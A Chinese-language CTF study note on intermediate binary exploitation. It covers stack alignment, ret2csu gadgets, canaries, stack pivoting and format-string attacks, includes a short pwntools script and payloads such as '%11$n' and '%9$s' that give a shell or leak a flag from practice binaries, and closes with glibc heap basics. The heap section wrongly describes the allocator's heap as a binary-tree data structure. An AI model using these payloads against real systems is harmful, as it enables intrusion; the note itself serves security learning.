

# pwn medium

`更新时间：2025-3-27`

注释解释：

- `<>`必填项，必须在当前位置填写相应数据

- `{}`必选项，必须在当前位置选择一个给出的选项

- `[]`可选项，可以选择填写或忽略

*注：该笔记内的可选项和参数均不完整，如有需要，请查询相关手册*

## 栈对齐

在进行64位攻击的时候，通常需要考虑栈对齐问题，那么，什么是栈对齐？

简单来说，64位的ubuntu系统在调用`system()`函数时，有一个`movaps`的指令，`movaps`指令用于在128位对齐的单精度浮点数向量寄存器或内存之间进行数据传输，能够让计算机同时处理多个浮点数数据，提高数据处理效率。这个指令要求内存地址必须16字节对齐，即程序调用`system()`时，`rsp`指向的地址末位必须是`0`

我们使用一个案例来查看，这个案例没有栈对齐

> 

上图中，程序正在执行`system()`函数，但是此时的`rsp`指向地址为`0x7fff80e011a8`，因此最终攻击会报错`Got EOF while reading in interactive`

**如何栈对齐**

栈对齐的方法一般有两种

1. `addr + 1`

`addr + 1`是指将返回地址更改为返回函数的起始位置后一位，因为通常函数的第一位指令都是`push rbp`，这条执行会在栈上写入一个`rbp`，直接跳过这条指令，就能让栈上少8字节，在进行攻击时，栈就会是对齐状态

2. `pop_ret`

对于普通`payload`，例如`payload = flat([cyclic(0x88), callsystem])`，`callsystem`是直接覆盖了子函数的返回地址，这里我们可以直接插入一个`ret`，如`payload = flat([cyclic(0x88), ret, callsystem])`，执行`ret`后，栈上的`callsystem`地址就被弹入了`rip`，然后返回`callsystem`，这样栈上就能少8个字节，栈就会是对齐状态

## ret2csu

`ret2csu`并不是一种题型，而是一种中级`ROP`方法，即在64位题目中，需要给指定函数传递多个参数，而`gadget`又无法满足传参需求，因此需要使用`__libc_csu_init`函数中的某些片段来达到传参的目的

一般来说，需要使用的函数片段为以下两块

**gadget1**

```assembly
.text:00000000004006AA                 pop     rbx
.text:00000000004006AB                 pop     rbp
.text:00000000004006AC                 pop     r12
.text:00000000004006AE                 pop     r13
.text:00000000004006B0                 pop     r14
.text:00000000004006B2                 pop     r15
.text:00000000004006B4                 retn
```

**gadget2**

```assembly
.text:0000000000400690                 mov     rdx, r13
.text:0000000000400693                 mov     rsi, r14
.text:0000000000400696                 mov     edi, r15d
.text:0000000000400699                 call    ds:(__frame_dummy_init_array_entry - 600840h)[r12+rbx*8]
.text:000000000040069D                 add     rbx, 1
.text:00000000004006A1                 cmp     rbx, rbp
.text:00000000004006A4                 jnz     short loc_400690
```

在`gadget2`中可以看到，程序将`r13`的值传递给了`rdx`，将`r14`的值传递给了`rsi`，还将`r15`的低位传递给了`rdi`的低位`edi`，因此，`r13`、`r14`、`r15`均可看作是直接对`rdx`、`rsi`和`rdi`赋值

因此，我们先让程序跳转到`gadget1`的开头位置，然后依次传参，通过`gadget1`的`retn`返回`gadget2`，让`r13`、`r14`、`r15`向`rdx`、`rsi`和`rdi`赋值

然后程序执行`call [r12 + rbx * 8]`，为了让`call`指令能直接跳转到我们想要的函数处，可以直接在`gadget1`中将其设置为0，接着程序继续向下执行，遇到`add rbx, 1`和`cmp rbx, rbp`，此时需要`rbx`的值等于`rbp`的值，程序才能继续执行，上文指出，我们已经将`rbx`的值设置为了0，然后经过`add rbx, 1`后变成了1，只需要将`rbp`也设置为1，就能让程序继续执行

需要注意的是`r12`的内容必须是一个指针，即必须是指向其他地址的地址，因此一般使用`got`表项的地址。如果`r12`不需要调用函数，可以用对栈没有影响的函数代替，比如`__init_array_start`函数

因为`gadget2`位于`gadget1`的低地址，因此程序离开`gadget2`后，又会执行一次`gadget1`，此时所有的赋值都没有任何意义，因此我们直接用垃圾数据填充

```assembly
.text:0000000000400690 loc_400690:                             ; CODE XREF: __libc_csu_init+54↓j
.text:0000000000400690                 mov     rdx, r13
.text:0000000000400693                 mov     rsi, r14
.text:0000000000400696                 mov     edi, r15d
.text:0000000000400699                 call    ds:(__frame_dummy_init_array_entry - 600840h)[r12+rbx*8]
.text:000000000040069D                 add     rbx, 1
.text:00000000004006A1                 cmp     rbx, rbp
.text:00000000004006A4                 jnz     short loc_400690
.text:00000000004006A6
.text:00000000004006A6 loc_4006A6:                             ; CODE XREF: __libc_csu_init+36↑j
.text:00000000004006A6                 add     rsp, 8
.text:00000000004006AA                 pop     rbx
.text:00000000004006AB                 pop     rbp
.text:00000000004006AC                 pop     r12
.text:00000000004006AE                 pop     r13
.text:00000000004006B0                 pop     r14
.text:00000000004006B2                 pop     r15
.text:00000000004006B4                 retn
```

可以看到从`.text:00000000004006A4`到`.text:00000000004006B4 `之间总共7个地址，因此填充`7 * 8 = 56`字节的垃圾数据，然后填入最后程序返回地址即可

例题见<a href="./pwn_basic_practice.md">`pwn_basic_practice.md`</a>的`level3 amd64`

## Canary

上文中，我们初步认识了`Canary`栈溢出保护措施，这里利用例题深入了解`Canary`的工作机制。我么知道，`Canary`是在栈中存放一个随机数，然后在函数返回时进行检查，正常情况下，栈的内容没有进行任何修改，因此检查通过，程序继续进行。如果进行栈溢出，溢出的数据覆盖了栈中的随机数，那么进行检查时，就能发现栈的内容被修改，从而立即中断程序进行保护

**代码实现**

```assembly
.text:00000000004007F3                 mov     rax, fs:28h
.text:00000000004007FC                 mov     [rsp+128h+var_20], rax
```

第一条指令`mov rax, fs:28h`是将`fs`寄存器偏移`28h`位置的数据传给了`rax`寄存器，第二条指令`mov [rsp+128h+var_20], rax`则是将`rax`的值传递给了`rsp + 128h + var_20`内存地址指向空间的值，这里的缓冲区大小为`128h`，又偏移了`var_20`字节，因此能够作为`Canary`保护程序

在函数返回时，程序会检查`Canary`的值

```assembly
.text:0000000000400882                 mov     rax, [rsp+128h+var_20]
.text:000000000040088A                 xor     rax, fs:28h
.text:0000000000400893                 jnz     short loc_4008A9
```

`mov rax, [rsp+128h+var_20]`将`rsp + 128h + var_20`内存地址指向空间的值传递给`rax`，然后`xor rax, fs:28h`将`rax`与最初的`fs:28h`进行异或操作，`jnz short loc_4008A9`进程判断和跳转操作，`jnz`代表`jump if not z`，`z`是一个标志寄存器中的一个标志位，如果`z`的值为0，这条指令会跳过，如果`z`的值不为0，那么程序会跳转`loc_4008A9`

```assembly
.text:00000000004008A9 loc_4008A9:                             ; CODE XREF: sub_4007E0+B3↑j
.text:00000000004008A9                 call    ___stack_chk_fail
```

这里可以看到`loc_4008A9`是调用了`___stack_chk_fail`函数，抛出栈溢出错误，程序被终止

## 栈迁移

对于之前的一些题目，程序给我们提供了足够大的溢出空间，让我们可以写入`ROP`链，但是有些题目限制了输入长度，因此我们需要栈迁移来将程序执行流（栈）转移到其他地方，如`.bss`段，然后利用`.bss`段已经预先准备好的`gadget`，最终达到攻击的目的

**演示**

假设栈结构

| stack                 | stack pointer  |
| --------------------- | -------------- |
| father function frame |                |
| ---                   |                |
| ret addr              |                |
| ---                   |                |
| previous ebp          |                |
| ---                   | <- current ebp |
| son function frame    |                |
| ---                   | <- current esp |

子函数栈帧中存在栈溢出漏洞，但是向上溢出只能覆盖到`previous ebp`的位置，现在程序正常进行

子函数在调用完成后，执行`leave`，首先执行`mov esp, ebp`

| stack                 | stack pointer                  |
| --------------------- | ------------------------------ |
| father function frame |                                |
| ---                   |                                |
| ret addr              |                                |
| ---                   |                                |
| previous ebp          |                                |
| ---                   | <- current ebp  <- current esp |

然后执行`pop ebp`，将`previous ebp`弹入`current ebp`中

| stack                      | stack pointer  |
| -------------------------- | -------------- |
| grandfather function frame |                |
| ---                        | <- current ebp |
| father function frame      |                |
| ---                        |                |
| ret addr                   |                |
| ---                        | <- current esp |

`leave`执行结束，栈回到了父栈帧，程序只需要执行`ret`即可将`eip`回到父函数

现在假设我们更改了`previous ebp`，将其地址更改为了一块我们准备好攻击指令的地址

程序子函数在调用完成后，执行`leave`，首先执行`mov esp, ebp`

| stack                 | stack pointer                  |
| --------------------- | ------------------------------ |
| father function frame |                                |
| ---                   |                                |
| ret addr              |                                |
| ---                   |                                |
| attack addr           |                                |
| ---                   | <- current ebp  <- current esp |

因为我们将`previous ebp`改为了`attack addr`，因此`pop ebp`后，`ebp`被迁移到了`attack addr`

| stack             | stack pointer  | attack addr    | attack pointer |
| ----------------- | -------------- | -------------- | -------------- |
| father func frame |                | attack command |                |
| ---               |                | attack command |                |
| ret addr          |                | attack command |                |
| ---               | <- current esp | ---            | <- current ebp |

然后程序执行`ret`，即`pop eip`，程序返回父函数

| stack                  | stack pointer  | attack addr    | attack pointer |
| ---------------------- | -------------- | -------------- | -------------- |
| ---                    |                | attack command |                |
| grandfather func frame |                | attack command |                |
| ---                    |                | attack command |                |
| father func frame      |                | attack command |                |
| ---                    | <- current esp | attack command |                |
| ret addr               |                | attack command |                |
| ---                    |                | ---            | <- current ebp |

在程序执行完成父函数后，准备返回爷函数

| stack             | stack pointer  | attack addr    | attack pointer |
| ----------------- | -------------- | -------------- | -------------- |
| ---               |                | attack command |                |
| father's ret addr |                | attack command |                |
| ---               |                | attack command |                |
| grandfather's ebp |                | attack command |                |
| ---               | <- current esp | attack command |                |
| father func frame |                | attack command |                |
| ---               |                | ---            | <- current ebp |

此时再次执行`leave`，即`mov esp, ebp`，又因为此时`ebp`位于`attack addr`，因此栈即被迁移到了`attack addr`

| stack             | stack pointer | attack addr    | attack pointer                |
| ----------------- | ------------- | -------------- | ----------------------------- |
| ---               |               | attack command |                               |
| father's ret addr |               | attack command |                               |
| ---               |               | attack command |                               |
| grandfather's ebp |               | attack command |                               |
| ---               |               | attack command |                               |
| father func frame |               | attack command |                               |
| ---               |               | ---            | <- current ebp <- current esp |

因为程序根据`esp`和`ebp`来分辨栈，所以`pop ebp`指令，被`pop`的数据将会是`attack addr`栈上的内容，此时就达到了攻击目的

根据演示其实可以知道，如果需要进行栈迁移，其实需要两次`leave`指令，第一次迁移`ebp`，第二次迁移`esp`

## 格式化字符串

对于如下C代码

```c
#include <stdio.h>

int main() {
    char s[100];
    int a = 1, b = 0x22222222, c = -1;
    scanf("%s", s);
    printf("%08x %08x %08x %s\n", a, b, c, s);
    printf(s);
    
    return 0;
}
```

运行后能得到如下结果

> 

`printf()`函数是C语言中常见的输出函数，可以有多个参数，第一个参数一般是格式化字符串，规定了`printf()`函数的输出格式。格式化字符串使用`%`来表示占位符，说明此处是一个变量的内容，如`%d`表示此处是一个十进制整型，`%f`表示此处是一个浮点数等，然后从第二个参数开始，按照顺序读取对应的值

### 格式化字符串漏洞

现在来假设一种情况，如果`printf()`的格式化字符串后没有对应的参数

```c
#include <stdio.h>
#include <unistd.h>

int main() {
	char str[100];
	read(1, str, 100);
    printf(str);

    return 0;
}
```

然后编译并运行程序

> 

可以看到，程序依然输出了一些内容，这些内容从何而来？

现在我们来调试这个程序，注意需要编译为32位，因为64位通过寄存器传参

在`main()`处断点，然后步过并输入`%p.%p.%p.%p`，在程序打印后查看栈

> 

图中可以看出，打印的内容正好是栈上存放的内容，也就是说，如果我们在格式化字符串后不提供任何参数，程序在调用`printf()`函数时，依然会依据格式化字符串的占位符，在栈上寻找相应的参数

如上图中，`esp`存放的是`printf()`的第一个参数，`esp + 4`存放的也是`printf()`的第一个参数，即格式化字符串，`esp + 8`存放的是`printf()`的第二个参数，格式化字符串读取的第一参数`0x64`

利用这个特性，如果栈上存在一些敏感信息，如`Canary`，`flag`等，就可以直接通过格式化字符串漏洞进行泄露

**X$**

假设如下C代码

```c
#include <stdio.h>
#include <unistd.h>

int main() {
	char str[10];
	read(1, str, 10);
    printf(str);

    return 0;
}
```

`str`的长度只有10，如果此时栈上的敏感内容位于`printf()`函数的上方超过10个字节的地址，那么正常传入`"%p%p%p..."`就无法达到需要泄露的位置

我们需要利用格式化字符串的另一种写法`X$`

`X$`指的是格式化字符串可以指定此处显示的值的参数顺序，如`%3$d`，表示格式化后方的第三个整型参数。那么，上文所述的情况下，就能够传入`%20$p`或其他数值，来精确获取敏感内容

**%n**

在C语言格式化字符串的占位符中，存在一个占位符`%n`，其意义是获取已打印字符的个数，并赋值给对应的参数，参数必须是一个地址，否则程序运行时会报错

```c
#include <stdio.h>

int main() {
	int a, b;

    printf("This is a%n example!%n\n", &a, &b);
    printf("a = %d\nb = %d\n", a, b);

    return 0;
}
```

运行结果

> 

在上文中我们知道，在不指定第二参数的情况下，`printf()`会将栈上的内容作为第二参数依次读取，如果此时我们将格式化字符串写为一个地址，并使用`%n`为其写入数据，理论上就能实现在栈上的任意位置写入数据

### fmtstr1

先进行反编译

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[80]; // [esp+2Ch] [ebp-5Ch] BYREF
  unsigned int v5; // [esp+7Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  be_nice_to_people();
  memset(buf, 0, sizeof(buf));
  read(0, buf, 0x50u);
  printf(buf);
  printf("%d!\n", x);
  if ( x == 4 )
  {
    puts("running sh...");
    system("/bin/sh");
  }
  return 0;
}
```

第15行直接调用了`shell`，其调用条件是变量`x == 4`，而又因为存在`printf(buf)`，所以这道题很明显存在格式化字符串漏洞，只需要通过`printf(buf)`将变量`x`的值改为4即可

先确认变量`x`的位置

> 

变量`x`位于`.data`段上，默认值是3

然后进行动态调试，计算`printf()`与`buf`之间的距离

> 

如图，`esp`是`printf()`的格式化字符串位置，`esp + 4`是其拷贝，`ebx`是`buf`的位置，中间距离11个字长，所以如果我们想要更改x的值，首先需要传入x的地址，此时x的地址就会存放在`ebx`的位置，然后拼接一个`%11$n`来让`printf()`的格式化字符串寻找第11个参数，即x的地址，然后为其赋值

构造攻击脚本

```py
from pwn import *

sh = process('./fmtstr1')
# 本题需要让x的值等于4，而x的地址本身就是四字节，因此直接拼接即可
payload = p32(0x804a02c) + b'%11$n'
sh.sendline(payload)
sh.interactive()
```

此时的栈结构为

| stack addr | content                 |
| ---------- | ----------------------- |
| 0xffffcef0 | &p32(x addr) + b'%11$n' |
| 0xffffcef4 | &p32(x addr) + b'%11$n' |
| 0xffffcef8 | 0x50                    |
| 0xffffcefc | 1                       |
| 0xffffcf00 | 0                       |
| 0xffffcf04 | 1                       |
| 0xffffcf08 | &0                      |
| 0xffffcf0c | &0x6d6f682f             |
| 0xffffcf10 | 0                       |
| 0xffffcf14 | &0x5b94e1bb             |
| 0xffffcf18 | 0x1a                    |
| 0xffffcf1c | x addr                  |

执行脚本，成功`getshell`

> 

### fmtstr2

先进行反编译

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  char v4; // [rsp+3h] [rbp-3Dh]
  int i; // [rsp+4h] [rbp-3Ch]
  int j; // [rsp+4h] [rbp-3Ch]
  char *format; // [rsp+8h] [rbp-38h] BYREF
  _IO_FILE *fp; // [rsp+10h] [rbp-30h]
  const char *v9; // [rsp+18h] [rbp-28h]
  _BYTE v10[24]; // [rsp+20h] [rbp-20h] BYREF
  unsigned __int64 v11; // [rsp+38h] [rbp-8h]

  v11 = __readfsqword(40u);
  fp = fopen("flag.txt", "r");
  for ( i = 0; i <= 21; ++i )
    v10[i] = _IO_getc(fp);
  fclose(fp);
  v9 = v10;
  puts("what's the flag");
  fflush(_bss_start);
  format = 0LL;
  __isoc99_scanf("%ms", &format);
  for ( j = 0; j <= 21; ++j )
  {
    v4 = format[j];
    if ( !v4 || v10[j] != v4 )
    {
      puts("You answered:");
      printf(format);
      puts("\nBut that was totally wrong lol get rekt");
      fflush(_bss_start);
      return 0;
    }
  }
  printf("That's right, the flag is %s\n", v9);
  fflush(_bss_start);
  return 0;
}
```

这道题的程序比较长，但是主要作用很简单，是读取`flag.txt`的内容，存入`v10`字符数组，然后用`scanf()`接收用户输入，与`v10`的内容进行对比，如果内容一致，最终输出`flag`，任意字符不一致即输出错误

很显然我们不可能通过正常途径获取`flag`，但是第28行中的`printf(format);`可以被我们利用

现在进行动态调试，断点打在`printf(format)`，然后输入`AAAAAAAAA`，查看栈内容

> 

图中可以看到我们输入的`AAAAAAA`地址位于`0x602ca0`，并不在栈中，为什么会这样？

因为本题是一道64位程序，函数传参先通过寄存器传参

> 

`rdi`和`rsi`此时都是`AAAAAAAA`，所以可以确定此时`printf()`正在传参，那么我们该如何读取栈中的内容呢？

根据64位的传参规则，函数在传参时会依次调用`rdi`、`rsi`、`rdx`、`rcx`、`r8`、`r9`，然后就是栈，因此只需要输入`%6$p`就能读取栈上的内容，下面来验证我们的想法，我们重新动态调试程序，并输入`%p.%p.%p.%p.%p.%p.%p.%p.%p`

> 
>
> 

得到的结果是`'0x602480.(nil).0x7ffff7d26274.0xa.0x7.0x25000000.0x602ca0.0x6022a0.0x7fffffffdd50'`，现在来依次对照，注意第一个是`rsi`的值，因为格式化字符串本身是`rdi`的值，可以很明显地发现从第6个`%p`开始，程序就在读取栈上的内容了，而栈中`0x7fffffffdd48`的位置即存放的是`flag`，此地址是第9个`%p`，因此只需要输入`%9$s`即可将其解析为字符`flag`

> 

注意这里不能使用`%10$s`，因为`%s`的参数是一个字符型指针，`0x7fffffffdd48`存放的是指针`0x7fffffffdd50`，而`0x7fffffffdd50`存放的才是数据，如果使用`%10$s`，程序就会将`0x7fffffffdd50`存放的`0x64786d7b67616c66`作为一个指针解析，从而导致程序崩溃 

## 堆

堆是虚拟地址空间的一块连续线性区域，提供动态分配的内存，允许程序申请大小未知的内存

堆在数据结构中是一个完全二叉树，即若二叉树的深度为h，则除第h层外，其他层的结点全部达到最大值，且第h层的所有结点都集中在左子树。堆是非线性数据结构，每次插入都是将数据插入到父节点，从这个新数据的父结点到根结点必然为一个有序的序列

在C语言中，一般通过`malloc()`函数来获取一块堆区

```c
#include <stdio.h>

int main() {
	void* ptr = malloc(0x400);
}   
```

上面的代码中，程序通过`malloc()`向内存中申请了`0x400`字节的内存空间，该内存空间的数据结构即是堆

### 堆管理器

堆管理器是位于用户与操作系统之间，作为动态内存管理的中间人。堆管理器可以响应用户的内存申请请求，向操作系统申请内存，然后将其返回给用户程序，管理用户所释放的内存，适时归还给操作系统，本质是动态链接库中的一段代码

**常见的堆管理器**

| 管理器   | 操作系统                  |
| -------- | ------------------------- |
| dlmalloc | General purpose allocator |
| ptmalloc | glibc                     |
| jemalloc | FreeBSD and Firefox       |
| tcmalloc | Google                    |
| libumem  | Solaris                   |

### 堆管理器的系统调用

上文中我们知道，堆管理器的本质是动态链接库中的一段代码，即属于用户态的代码，因此堆管理器无法直接分配内存空间，仍然需要向内核申请系统调用，常用的系统调用有两个，`brk`和`mmap`

`brk`：主线程的系统调用，实质是将`data`段进行扩展

`mmap`：在物理内存中开辟一块空间，映射到虚拟内存中

主线程`brk`和`mmap`都可以使用，子线程只能使用`mmap`，较小区域使用`brk`，较大区域使用`mmap`

### 堆管理器的工作方式

#### arena

arena是内存分配区，可以理解为堆管理器从系统申请到的内存池，用户向堆管理器申请的内存就位于arena中

#### chunk

当用户执行`malloc()`函数向堆管理器申请内存后，堆管理器就会将arena中的某块区域提供给用户，这块区域被称为chunk，chunk是内存分配的最小单位，一般来说，chunk的大小会大于实际申请的大小，`malloc()`函数返回的指针实际也是指向这个chunk的指针，`malloc()`函数申请的chunk被称为`malloc chunk`

**malloc chunk**

`malloc chunk`的结构一般是头部两个字长的控制信息`prev size`和`size`，后面紧跟数据体。`prev size`记录上一个chunk数据体的大小，`size`则记录该chunk控制信息和数据体总体的大小

在`size`的低3比特还有三个控制字段，为什么是3比特？因为如果要申请一个chunk，不包含数据体的情况下，至少也需要两个字长来包含控制信息，在32位中两个字长最小为8字节，又因为chunk的大小必须是字长的整数倍，因此二进制`size`的低3位永远是0，为了避免资源浪费，所以使用`size`的低3位来描述额外的控制信息，这三个信息分别是`AMP`，`A`表示是否为主线程chunk，`M`表示是否位于`MMAP`段，`P`表示前一个chunk是否被分配

在`malloc chunk`被`free()`函数释放内存后，堆管理器就会将其更改为`free chunk`结构，而不是直接返还给操作系统。因为每次针对系统硬件的操作都需要系统执行系统调用，而系统调用占用的资源往往很大，因此需要尽量减少系统调用的次数

**free chunk**

`free chunk`有多种结构，如`fastbin free chunk`、`smallbin free chunk`、`unsortbin free chunk`和`largebin free chunk`

- `smallbin free chunk`：和`unsortbin free chunk`的结构类似，有四个字长的控制结构，后面紧跟数据体。四个字长的控制结构中，第一字长是`prev size`，第二字长是`size`，第三字长是`fd`指针，`fd`是`forward`的缩写，指向后一个`free chunk`，第四个字长是`bk`指针，`backward`的缩写，指向前一个`freechunk`

- `largebin free chunk`：有六个字长的控制结构，除了`prev size`、`size`、`fd`、`bk`外，还有`fd_nextsize`和`bk_nextsize`

- `fastbin free chunk`：只有三个字长的控制结构，`prev size`、`size`和`fd`

**malloc chunk的实现**

`malloc chunk`的C语言实现如下

```c
struct malloc_chunk {
	INTERNAL_SIZE_T		prev_size;		/* Size of previous chunk (if free). */
 	INTERNAL_SIZE_T		size;		/* Size in bytes, including overhead. */
    
    struct malloc_chunk* fd;		/* double links -- used only if free. */
    struct malloc_chunk* bk;
    
    /* Only used for large blocks: pointer to next large size. */
    struct malloc_chunk* fd_nextsize;		/* double links -- used only if free. */
    struct malloc_chunk* bk_nextsize;
};
```

